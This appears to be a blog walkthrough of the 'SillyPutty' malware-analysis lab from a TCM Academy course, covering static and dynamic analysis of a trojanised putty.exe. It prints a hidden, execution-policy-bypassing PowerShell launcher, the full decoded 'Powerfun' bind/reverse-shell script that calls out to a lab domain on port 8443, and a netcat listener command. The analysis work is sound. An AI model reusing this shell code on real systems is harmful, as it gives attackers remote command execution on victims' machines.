

## Introduction

[TCM Academy](https://academy.tcm-sec.com/) is a great resource for learning cyber security concepts. 
Their noble goal is to offer top-notch cyber security courses, taught
by great teachers, with a price that is affordable for everyone. 
Their slogan is:
>Want to learn how to hack things without breaking the bank? We've got you covered.

I can absolutely vouch for their course [Practical Malware Analysis and Triage](https://academy.tcm-sec.com/p/practical-malware-analysis-triage).
Matt Kieley is an amazing teacher whose enthusiasm shines through all his lectures. 

In this article, I will be looking at the first challenge of this course, named "SillyPutty".
All materials can be found on this Matt's Github page:

[https://github.com/HuskyHacks/PMAT-labs/tree/main/labs/1-3.Challenge-SillyPutty](https://github.com/HuskyHacks/PMAT-labs/tree/main/labs/1-3.Challenge-SillyPutty)

The analysis is performed on a Flare VM and REMNux to simulate network services.
The goal of this challenge is to answer multiple questions about the behavior of
the binary in question, so with these questions as guidance, let's start!

## Static Analysis
  
We set out by pulling hashes and gathering some data about the binary by pulling the SHA256 hash, the following command:
```
Get-FileHash putty.exe
```
Returns this hash:
```
0C82E654C09C8FD9FDF4899718EFA37670974C9EEC5A8FC18A167F93CEA6EE83 
```

The hash will be used later on to find some information about it in VirusTotal.
Now we move on to investigating the header of the binary as part of basic static analysis.
Using PEStudio, the binary shows that the first few bytes are the following
```
M Z x .. .. .. .. .. .. .. .. .. .. .. .. .. .. .. ..
```
This indicative of a Windows Portable Executable, and the architecture is 32-bits. 
Searching for the SHA256 hash in VT shows that it is definitely malicious, with 59/72 AV vendors
marking this as a virus:

  
Now strings will be extracted by using FLOSS on the binary. This gives a long wall of strings to search through, but looking carefully
the following seemingly malicious Powershell command can be observed. It attempts to execute
a base64 encoded blob (removed from this command for brevity):
```
powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]  
::create((New-Object System.IO.StreamReader(New-Object System.IO.   
Compression.GzipStream((New-Object System.IO.MemoryStream  
(,[System.Convert]::FromBase64String('BASE64 BLOB HERE'))),  
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
```

What stands out about this command in particular are the parameters, as 
this command attempts to spawn with a hidden window (-w hidden), in non-interactive
mode (-noni), and bypassing the execution policy (-ep bypass).

A further look at the PE header, the import address table (IAT) in particular, shows there are many API calls 
that may be abused for malicious activity, such as RegCreateKeyA, ShellExecutaA, CreateProcessA, GetClipBoardData, 
there are too many to name. Judging from the readily visible API calls, there is no indication that this binary is packed.
Running the binary through PEiD shows that the binary is unpacked (or at least unrecognized by PEiD). This concludes
the basic static analysis. Next, we turn to the dynamic analysis to observe the behavior while running the binary. 


## Dynamic Analysis

To start dynamic analysis, the executable is run as-is, without any internet service simulation. 
Running the executable shows a Powershell window for a brief moment, which is abnormal behavior for non-malicious Putty.
Using procmon, it is observed that the previous encountered powershell script opens port 8443 on the machine. To better understand
what the script does, we need to decode it first. The base64 blob is decoded, followed by a Gunzip step in CyberChef, which shows the following contents:
```powershell
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}
```
From the looks of it, this script indeed opens a reverse shell on port 8443. 
We also see that it takes multiple commands, such as "bind" and "reverse", referring
to the nature of the shell that will be spawned on the compromised host. The SSL con feature
suggests that the communication with the shell is likely encrypted with SSL. 
If we keep an eye on Wireshark while detonating the binary, multiple DNS requests
are observed to the following domain (as can also can be observed in the script):
```
bonus2.corporatebonusapplication.local
```
  
Armed with the knowledge that the binary opens what seems to be a reverse shell on port 8443, we head over
to REMnux to set up a Netcat listener:
```
nc -l 10.0.0.101 8443
```
Indeed, when running putty.exe again we will have a shell:


This shell shows garbled output, because we do not have the right SSL certificate
to properly connect to this shell. 

## Conclusion

This concludes challenge 1, as all the questions have been answered. 
Practice makes perfect, and doing these challenges is a lot of fun!
I'm looking forward to what the other challenges are like,
even though this is was just a warmup in terms of analysis.


